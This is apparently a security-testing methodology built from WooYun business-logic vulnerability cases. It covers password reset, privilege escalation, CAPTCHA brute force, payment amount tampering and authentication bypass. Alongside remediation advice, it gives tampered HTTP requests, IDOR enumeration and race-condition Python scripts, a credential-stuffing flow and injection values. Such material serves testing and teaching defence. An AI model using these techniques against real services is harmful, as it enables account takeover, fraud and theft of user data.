


# Business Logic Flaw Analysis Methodology

> Distilled from 8,292 cases | Data source: WooYun Vulnerability Database (2010-2016)

---

## 1. Core Insight: The Nature of Business Logic Flaws

### 1.1 Root Cause Analysis Matrix

| Level | Defect Type | Typical Manifestation | Detection Difficulty |
|-------|------------|----------------------|---------------------|
| **Business layer** | Process design flaws | Steps can be skipped, states can be forged | High |
| **Interface layer** | Excessive parameter trust | Client-side validation, no server-side verification | Medium |
| **Authentication layer** | Credential management flaws | Token leakage, session fixation | Medium |
| **Authorization layer** | Blurred permission boundaries | Horizontal/Vertical Privilege Escalation | High |

### 1.2 Attack Surface Mapping

```
User Input -> Frontend Validation (bypassable) -> Network Transport (interceptable) -> Backend Processing (core)
                  |                                      |                                    |
          Client-side parameter tampering         Man-in-the-middle/replay            Server-side logic flaws
```

---

## 2. Password Reset Vulnerabilities [22 Cases]

### 2.1 Vulnerability Pattern Classification

#### Pattern A: Verification Code Leaked in Response
**Cases: Parking platform APP, community platform, telecom webmail service**

```
Attack Flow:
1. Request verification code -> Intercept response
2. Response contains verification code in plaintext
3. Complete verification without receiving the SMS
```

**Detection Method:**
```http
POST /sendSmsCode HTTP/1.1
phone=13888888888

# Check response:
{"code":0,"data":{"verifyCode":"123456"}}  <- Leak point
```

#### Pattern B: Verification Code Not Bound to User
**Case: Accounting APP (affecting 80 million users)**

```
Vulnerability Logic:
1. Register with your own phone number, receive verification code A
2. Initiate password reset for target account
3. Use verification code A to complete verification <- Not bound to user identity
```

**Root Cause:** Verification code only checks validity, not user ownership

#### Pattern C: Reset Steps Can Be Skipped
**Cases: Outdoor goods store, medical Q&A site**

```
Normal Flow: Enter account -> Identity verification -> Reset password -> Complete
Attack Flow: Enter account -> [Skip verification] -> Directly access reset page

Technical Implementation:
1. Analyze frontend JS logic, find URLs for each step
2. Directly access Step 3 URL
3. Frontend hidden DOM element replacement method:
   - F12 to find the "Reset Password" step HTML
   - Overlay it on the current "Identity Verification" step DOM
```

#### Pattern D: Controllable Credential Parameters
**Cases: Digital magazine platform, electric scooter manufacturer**

```http
POST /resetPassword HTTP/1.1
username=victim&newPassword=hacked123

# Vulnerability: username parameter comes from client, can be tampered
```

**Testing Checklist:**
- [ ] Does the reset request contain a user identifier
- [ ] Can the identifier be modified
- [ ] Does modification affect other users

### 2.2 General Testing Framework



---

## 3. Authorization Bypass Vulnerabilities [22 Cases]

### 3.1 Horizontal Privilege Escalation (IDOR)

#### Typical Scenario: ID Enumeration
**Cases: Car rental service, adult products store (200K+ users)**

```http
# Normal request
GET /address/edit/?addid=100001  -> Own address

# Privilege escalation request
GET /address/edit/?addid=100002  -> Another user's address
GET /address/edit/?addid=1       -> Enumerate all users
```

**Automated Detection Script Approach:**
```python
def idor_test(base_url, param_name, id_range):
    for id in range(id_range[0], id_range[1]):
        resp = requests.get(f"{base_url}?{param_name}={id}")
        if "sensitive_data_indicator" in resp.text:
            print(f"[!] IDOR Found: {param_name}={id}")
```

#### Typical Scenario: Resource Replacement Attack
**Case: Car rental service invoice unauthorized deletion**

```
Vulnerability Logic:
1. Account A creates invoice, ID=1001
2. Account B modifies own invoice, replaces ID with 1001
3. System executes UPDATE operation, Account A's invoice is overwritten/deleted

Attack Vector: Modification operation lacks ownership verification
```

### 3.2 Vertical Privilege Escalation

#### Typical Scenario: Role Escalation
**Case: Provincial news platform system**

```http
# Regular user modifying profile
POST /updateUser HTTP/1.1
user.aid=3&user.name=test   # aid=3 is regular user

# Privilege escalation
POST /updateUser HTTP/1.1
user.aid=1&user.name=test   # aid=1 is super admin
```

**Detection Key Points:**
1. Enumerate role IDs: Typically 1=super admin, 2=admin, 3+=regular user
2. Test role switching: Modify role identifier in request
3. Verify permission changes: Refresh and check menu/functionality changes

### 3.3 Authorization Bypass Testing Matrix

| Operation Type | Testing Method | Risk Level |
|---------------|---------------|-----------|
| View | Replace resource ID | Medium |
| Modify | Replace resource ID + data | High |
| Delete | Replace resource ID | Critical |
| Create | Replace owner user ID | High |

---

## 4. CAPTCHA/Verification Code Bypass Vulnerabilities [20 Cases]

### 4.1 Verification Code Not Refreshed

**Cases: Municipal housing fund system, IoT platform**

```
Vulnerability Manifestation:
- CAPTCHA does not auto-refresh after login failure
- Same CAPTCHA can be reused
- Only frontend triggers refresh, backend does not force update
```

**Exploitation Method:**
```python
# Fixed CAPTCHA brute force
captcha = "ABCD"  # Manually recognize once
for password in wordlist:
    resp = login(username, password, captcha)
    if "success" in resp:
        print(f"Password: {password}")
```

### 4.2 Verification Code Brute Force

**Case: Brand store APP (5-digit numeric verification code)**

```
Parameter Analysis:
- Verification code length: 4-6 digits
- Brute force space: 10,000-1,000,000
- Rate limiting: None

Brute Force Configuration:
- Threads: 30-50
- Dictionary: 00000-99999
- Duration: ~30 seconds to complete
```

### 4.3 Credential Stuffing Attacks

**Cases: Online service provider, smartphone manufacturer**

```
Prerequisites:
1. Login endpoint has no CAPTCHA / CAPTCHA is bypassable
2. No login rate limiting
3. Leaked credential databases exist

Attack Flow:
1. Obtain leaked database (e.g., manufacturer forum 80K weak passwords)
2. Batch test against target website
3. Success rate typically 0.1%-5%
```

### 4.4 Verification Code Security Checklist

- [ ] Is the verification code leaked in the response
- [ ] Is the verification code bound to session/user
- [ ] Does the verification code have a time limit (recommended: 60 seconds)
- [ ] Is a new code forced after verification failure
- [ ] Is there rate limiting (recommended: 5 attempts/minute)
- [ ] Is the code complexity sufficient (recommended: 6+ alphanumeric characters)

---

## 5. Payment Logic Vulnerabilities [9 Cases]

### 5.1 Amount Tampering

**Cases: Talent assessment platform, novelty goods store**

```http
# Original request
POST /pay HTTP/1.1
item=test_service&price=500&count=1

# Tampered request
POST /pay HTTP/1.1
item=test_service&price=0.01&count=1
```

**Detection Points:**
1. Amount parameter during order creation
2. Amount parameter during payment redirect
3. Amount verification during payment callback

### 5.2 Coupon/Discount Abuse

**Case: E-commerce platform discount logic flaw**

```
Vulnerability Flow:
1. Purchase item A (59 CNY), qualifying for "spend 59, add 5.9 to get item B"
2. Place order containing A and B, pay 59+5.9=64.9 CNY
3. Cancel item A, keep only B
4. Effectively purchase item B (original price 21 CNY) for 5.9 CNY
```

**Testing Approach:**
- Partial cancellation after combined ordering
- Return after coupon usage
- Refund after points redemption

### 5.3 Virtual Currency Farming

**Case: Smartphone manufacturer rewards store**

```
Vulnerability: Registration referral earns points
Attack:
1. Discover phone verification code is 4 digits
2. Brute force verification code to complete registration
3. Automated script for mass registration
4. Redeem points for physical goods
```

### 5.4 Order Price Parameter Tampering

**Case: E-commerce platform price logic flaw (wooyun-2015-0108817)**

```
Root Cause: Trusting client-submitted price parameters
Severity: High
Attack Method: Directly modify the price parameter in the order creation API
```

**Vulnerability Analysis:**

Normal order flow should follow:
```
[Select Product] -> [Generate Order] -> [Server Calculates Price] -> [User Pays]
```

Vulnerable flow:
```
[Select Product] -> [Generate Order] -> [Client Submits Price] -> [Server Does Not Verify] -> [Pay Any Price]
```

**Attack Vectors:**
```http
# Normal request
POST /order/create HTTP/1.1
{
  "productId": "12345",
  "quantity": 1,
  "price": 299.00  <- Original price
}

# Malicious request
POST /order/create HTTP/1.1
{
  "productId": "12345",
  "quantity": 1,
  "price": 0.01  <- Tampered to 0.01
}
```

**Root Cause Analysis - Deep Dive:**

1. **Design-Level Flaw**
   - Violates the "server-side authority" principle
   - Price calculation logic pushed down to the client
   - No secondary price verification mechanism implemented

2. **Trust Boundary Error**
   ```
   Security Model: Untrusted zone (client) -> Trust boundary -> Trusted zone (server)
   Incorrect Implementation: Directly accepts sensitive data from untrusted zone as fact
   Correct Implementation: Untrusted zone only provides product ID; server independently calculates price
   ```

3. **Business Logic Layering Failure**
   ```
   Presentation Layer: Display product price (tamperable)
   Business Layer: Calculate order amount (should be independent)
   Data Layer: Store transaction records (should verify)
   ```

**Systematic Testing Methodology:**

```
Phase 1: Parameter Fingerprinting
+-- Capture order creation API
+-- Identify price-related parameters (price/amount/total/cost)
+-- Determine parameter types (integer/float/string)

Phase 2: Boundary Value Testing
+-- Minimum value test (0, 0.01, -1)
+-- Negative number test (-100, -0.01)
+-- Format test (scientific notation, nested JSON)
+-- Precision test (float overflow, rounding errors)

Phase 3: Logic Bypass Testing
+-- Parameter redundancy: Submit multiple price parameters
+-- Parameter override: Raise price then lower it
+-- Batch orders: Unit price tampering
+-- Coupon stacking: Price + discount double manipulation

Phase 4: Impact Verification
+-- Order generation: Check order amount
+-- Payment gateway: Verify payment amount
+-- Shipping: Test if shipping proceeds normally
+-- Refund flow: Check refund amount
```

**Advanced Exploitation Techniques:**

1. **Price Parameter Tampering + Race Condition**
```python
import threading

def create_order():
    # Concurrently create multiple low-price orders
    requests.post("/order/create", json={
        "price": 0.01,
        "productId": "premium_item"
    })

threads = [threading.Thread(target=create_order) for _ in range(50)]
for t in threads:
    t.start()
```

2. **Parameter Pollution Technique**
```http
# Some frameworks process duplicate parameters
POST /order/create?price=299.00&price=0.01

# Or array parameters
POST /order/create
price[]=299.00&price[]=0.01
```

3. **Type Conversion Bypass**
```json
{
  "price": "0.01",        // String
  "price": 1e-10,         // Scientific notation
  "price": {"$gt": 0},    // MongoDB injection
  "price": null           // NULL injection
}
```

**Detection Checklist:**

| Test Item | Expected Behavior | Actual Check |
|-----------|-------------------|-------------|
| Server-side price calculation | Query database by product ID | Order amount = inventory price x quantity |
| Client-side price validation | Ignore submitted price | Used for display reference only |
| Price signature verification | Order parameter signing | Anti-tampering mechanism |
| Payment amount comparison | Callback amount = order amount | Third-party payment verification |
| Abnormal price interception | Reject on price anomaly | Below cost / above list price |

**Remediation Recommendations:**

```python
# Secure implementation example
def create_order(user_id, product_id, quantity):
    # 1. Get product price from database (server-side authority)
    product = db.query("SELECT price FROM products WHERE id = ?", product_id)
    if not product:
        raise Exception("Product does not exist")

    # 2. Server-side order amount calculation
    order_amount = product.price * quantity

    # 3. Record original and calculated prices for auditing
    order = {
        "user_id": user_id,
        "product_id": product_id,
        "quantity": quantity,
        "unit_price": product.price,
        "total_amount": order_amount,
        "price_source": "server_calculation"  # Tag price source
    }

    # 4. Generate order signature (anti-tampering)
    order["signature"] = hmac_sha256(
        f"{order_amount}{product_id}{quantity}",
        SECRET_KEY
    )

    return db.insert("orders", order)

# Payment callback verification
def payment_callback(order_id, paid_amount, signature):
    order = db.get_order(order_id)

    # Strictly verify payment amount matches order amount
    if order["total_amount"] != paid_amount:
        raise Exception("Payment amount mismatch")

    # Verify signature
    if not verify_signature(signature, order):
        raise Exception("Signature verification failed")

    # Update order status
    order["status"] = "paid"
    order["paid_amount"] = paid_amount
    db.update(order)
```

**Defense-in-Depth Strategy:**

```
Layer 1: Input Validation
+-- Allowlist validation: Only accept product ID, do not accept price parameters
+-- Type validation: Amount must be positive, max 2 decimal places

Layer 2: Business Logic
+-- Server-side calculation: All prices recalculated on server
+-- Price traceability: Record price calculation process
+-- Anomaly detection: Manual review when price deviation exceeds threshold

Layer 3: Data Integrity
+-- Order signing: Prevent parameter tampering
+-- Timestamps: Prevent replay attacks
+-- Idempotency: Prevent duplicate submissions

Layer 4: Payment Verification
+-- Callback verification: Verify payment amount matches order amount
+-- State machine: Strictly control order state transitions
+-- Audit logs: Record all price changes
```

### 5.5 Payment Flow Integrity Testing



---

## 6. Authentication Bypass [15 Cases]

### 6.1 Cookie/Session Forgery

**Case: Gaming company platform**

```
Vulnerable Endpoint:
GET /registeruser/CookInsert?userAccount=admin&inner=1

Function: Writes user identity to cookie
Exploitation: Specify any username to obtain that user's session
```

### 6.2 IP Spoofing

**Case: Web hosting control panel**

```http
# Add spoofed headers
X-Forwarded-For: [IP redacted]
X-Real-IP: [IP redacted]
Client-IP: [IP redacted]

Risk: Bypass IP allowlists, forge login logs
```

### 6.3 Response Tampering Bypass

**Cases: Pharmacy APP, P2P finance platform**

```
Normal Flow:
Request verification -> Response {"status":"0","msg":"Verification code error"} -> Stay on verification page

Attack Flow:
Request verification -> Intercept response -> Modify to {"status":"1","msg":"Success"} -> Proceed to next step
```

**Applicable Conditions:**
- Client controls flow based on response status
- Server does not re-verify state in subsequent steps

### 6.4 Authentication Bypass Testing Checklist

| Test Item | Method | Tool |
|-----------|--------|------|
| Cookie forgery | Modify user identifier field | BurpSuite |
| Session fixation | Reuse another user's session | Wireshark |
| Response tampering | Modify return status code | BurpSuite |
| IP spoofing | Add X-Forwarded-For | Curl |
| Frontend bypass | Modify JS logic | Browser DevTools |

---

## 7. Advanced Testing Methodology

### 7.1 Business Flow Reverse Analysis

```
Step 1: Map the complete business flow
Step 2: Identify validation checkpoints at each stage
Step 3: Assess whether validations can be bypassed
Step 4: Design bypass test cases
```

**Example: Password Reset Flow Analysis**

```
[Enter Account] -> [Send Verification Code] -> [Verify Identity] -> [Set New Password]
       |                    |                        |                      |
  Account enumeration   Code leakage            Step skipping       Parameter tampering
```

### 7.2 Systematic Parameter Tampering Method

| Parameter Type | Tampering Direction | Example |
|---------------|-------------------|---------|
| User ID | Replace with another user | uid=1001 -> uid=1002 |
| Amount | Reduce/zero/negative | price=100 -> price=0.01 |
| Quantity | Increase/negative | count=1 -> count=-1 |
| Status | Flip boolean value | isPaid=false -> isPaid=true |
| Role | Escalate privilege | role=user -> role=admin |
| Time | Extend/rewind | expireTime=... -> expireTime=2099-... |

### 7.3 Race Condition Exploitation

**Scenario: Points Redemption**

```python
import threading
import requests

def redeem():
    requests.post("/redeem", data={"points": 1000, "item": "iPhone"})

# Concurrent requests attempting multiple redemptions
threads = [threading.Thread(target=redeem) for _ in range(100)]
for t in threads:
    t.start()
```

**Applicable Scenarios:**
- Coupon usage
- Points redemption
- Inventory deduction
- Balance payments

### 7.4 Systematic Testing Framework

```
Phase 1: Intelligence Gathering
+-- Enumerate all functionality points
+-- Map business flow diagrams
+-- Identify sensitive operations

Phase 2: Threat Modeling
+-- Analyze input parameters for each endpoint
+-- Assess parameter controllability
+-- Build attack trees

Phase 3: Vulnerability Verification
+-- Test by priority
+-- Record PoCs
+-- Assess impact scope

Phase 4: Report Output
+-- Vulnerability description
+-- Reproduction steps
+-- Remediation recommendations
+-- Risk rating
```

---

## 8. Defense Recommendations Quick Reference

### 8.1 Password Reset

- Bind verification code to user session
- One-time use + time limit for verification codes
- Reset tokens are single-use
- Server-side state verification throughout the entire flow

### 8.2 Authorization Bypass

- Verify ownership before resource access
- Use UUIDs instead of auto-incrementing IDs
- Log audit trails for sensitive operations
- Implement principle of least privilege

### 8.3 Payment Security

- Amounts calculated server-side
- Order signing to prevent tampering
- Secondary verification on payment callbacks
- Idempotent transaction design

### 8.4 Verification Codes

- 6-character alphanumeric mix
- 60-second expiration
- Lock after 5 failed attempts
- Force refresh after verification failure

---

## 9. Recommended Tools

| Tool | Purpose | Scenario |
|------|---------|----------|
| BurpSuite | Traffic interception and tampering | All scenarios |
| Postman | API testing | Endpoint testing |
| SQLMap | Injection detection | Database |
| Hydra | Brute forcing | Weak credentials |
| OWASP ZAP | Automated scanning | Initial screening |

---

## 10. Reference Case Index

| Vulnerability Type | Representative Case | WooYun ID |
|-------------------|-------------------|-----------|
| Verification code leak in response | Parking platform APP | wooyun-2015-0134914 |
| Password reset step skipping | Outdoor goods store | wooyun-2014-054890 |
| Horizontal Privilege Escalation (IDOR) | Adult products store | wooyun-2015-0119942 |
| Vertical Privilege Escalation | Provincial news platform | wooyun-2015-099378 |
| Amount tampering | Talent assessment platform | wooyun-2012-07745 |
| Price parameter tampering | E-commerce platform | wooyun-2015-0108817 |
| Coupon abuse | E-commerce discount logic | wooyun-2015-0XXXXXX |
| Virtual currency farming | Smartphone manufacturer rewards store | wooyun-2015-0XXXXXX |
| Credential stuffing | Smartphone manufacturer | wooyun-2014-061871 |
| Cookie forgery | Gaming company platform | wooyun-2015-0157092 |
| Response tampering | Pharmacy APP | wooyun-2015-0139590 |

---

*Document version: v1.1*
*Data source: WooYun vulnerability database (88,636 entries)*
*Analysis sample: Design defect/logic error category (8,292 entries)*
*Generated: 2026-01-23*
*Latest update: Added price parameter tampering vulnerability deep analysis (wooyun-2015-0108817)*
